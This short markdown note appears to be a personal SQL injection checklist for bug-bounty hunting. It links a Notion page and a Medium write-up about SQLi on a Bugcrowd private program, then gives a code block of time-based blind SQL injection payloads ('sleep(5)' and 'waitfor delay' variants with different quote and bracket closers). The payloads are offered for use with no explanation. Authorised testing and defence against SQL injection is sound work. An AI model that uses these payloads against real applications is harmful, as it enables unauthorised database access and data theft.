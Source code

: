 ## 1. SQL checklist

https://www.notion.so/SQL-INJECTION-e89cf8a972d24a239821b4449f34f4e0


## 2. 
https://sapt.medium.com/sqli-on-a-bugcrowd-private-program-17858b57ec61


```
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```


